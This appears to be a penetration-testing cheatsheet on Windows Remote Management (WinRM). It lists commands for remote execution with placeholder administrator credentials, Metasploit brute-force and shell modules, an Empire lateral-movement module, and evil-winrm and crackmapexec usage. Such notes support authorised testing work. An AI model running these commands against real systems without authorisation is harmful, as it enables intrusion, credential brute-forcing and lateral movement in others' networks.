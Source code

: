 # WinRM


Windows Remote Management Protocol found on Windows machines on TCP Ports 5985 and 5986. [Microsoft Winrm documentation](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) *"Windows Remote Management (WinRM) is the Microsoft implementation of the [WS-Management protocol](https://learn.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol), which is a standard Simple Object Access Protocol (SOAP)-based, firewall-friendly protocol that allows interoperation between hardware and operating systems from different vendors."*

- Port 5985 for [[HTTP]] transport 
- Port 5986 for [[HTTPS]] Transport.

Configuring WinRM on a Windows Host:
```powershell
# WinrRM Service need to be Enabled on both Server and Client machines
# evil-winrm is a default kali package 
Enable-PSRemoting -force
winrm quickconfig -transport:https
Set-Item wsman:\localhost\client\trustedhosts * 
Restart-Service WinRM
```
Test connectivity
```powershell
test-wsman -computername "%EXTERNALHOSTNAME%"
test-wsman -computername "10.10.10.10"
```

[[Lateral-Movement]] with `winrs`
```powershell
# execute a command on a remote machine as a authenticated user
winrs -r:10.10.10.10 -u:$domain.$tld$\administrator -p:password123! $cmd
# similiarly with PowerShell
Invoke-Command -ComputerName "10.10.10.10" -Credential workgroup\administrator -Authentication Negotiate -Port 5985 -ScriptBlock {net user administrator}
# Get a PowerShell Remote Session 
# Credential objects in PowerShell
Enter-PSSession -ComputerName 10.10.10.10 -Credential administrator
```

[[PowerShell]] Credential making -  [a73xsh](https://gist.github.com/a73xsh/59463149c50d75c3a25889cf20823f8e)
```powershell
$user = "addyouruser"
$pass = convertto-securestring -asplaintext -force -string ""
$cred = new-object -typename system.management.automation.pscredential($user,$pass)
$session = newpssession -computername dc01 -credential $cred
enter-pssession -session $sessions
# Sometimes you need to use invoke command instead of $session creation due to shell limitations
invoke-command -computername $computername -ScriptBlock { hostname }  -Credential $cred
# PSRemoting may require a specific configuration:
-ConfigurationName $configName
```


[[Metasploit]] Auxiliary modules for WinRM:
```ruby
# Identify authentication method:
use auxiliary/scanner/winrm/winrm_auth_methods
msf auxiliary(winrm_auth_methods) > set rhosts 10.10.10.10
# Brute Force
use auxiliary/scanner/winrm/winrm_login
# WMI Queries
auxiliary/scanner/winrm/winrm_wql
# Run winrm commands
auxiliary/scanner/winrm/winrm_cmd
# Get a shell
auxiliary/scanner/winrm/winrm_script_exec
```
Consult the and any later version of Documentation regarding Metasploit: [rapid7 - abusing-windows-remote-management-winrm-with-metasploit ](https://www.rapid7.com/blog/post/2012/11/08/abusing-windows-remote-management-winrm-with-metasploit/)


[[Empire]] with [[Powershell-Empire-Modules]]
```powershell
usemodule lateral_movement/invoke_psremoting
set Listener http
set ComputerName 10.10.10.10
set UserName administrator
set Password password123
execute
```

According to [Raj Chandel: hackingarticles.in/winrm-penetration-testing](https://www.hackingarticles.in/winrm-penetration-testing/) there is *"Docker image of PowerShell with NTLM support to allow for PS-Remoting from Linux to Windows*
```bash
docker run -it quickbreach/powershell-ntlm
```

"Good" winrm 
```bash
gem install winrm
ruby winrm-shell.rb
```

See [[evil-winrm-Cheatsheet]] and [[Crackmapexec-Cheatsheet]] for more detail.
```bash
evil-winrm -i $IP -u $USER -p $PASS
crackmapexec winrm -u Administrator -p 'P@$$w0rd123!'
```

## References

[Microsoft Winrm documentation](https://learn.microsoft.com/en-us/windows/win32/winrm/portal)
[csbygb.gitbook.io - winrm](https://csbygb.gitbook.io/pentips/networking-protocols-and-network-pentest/winrm)
[Kali Tools evil-winrm](https://www.kali.org/tools/evil-winrm/)
[a73xsh](https://gist.github.com/a73xsh/59463149c50d75c3a25889cf20823f8e)
[Raj Chandel: hackingarticles.in/winrm-penetration-testing](https://www.hackingarticles.in/winrm-penetration-testing/) 
[rapid7 - abusing-windows-remote-management-winrm-with-metasploit ](https://www.rapid7.com/blog/post/2012/11/08/abusing-windows-remote-management-winrm-with-metasploit/)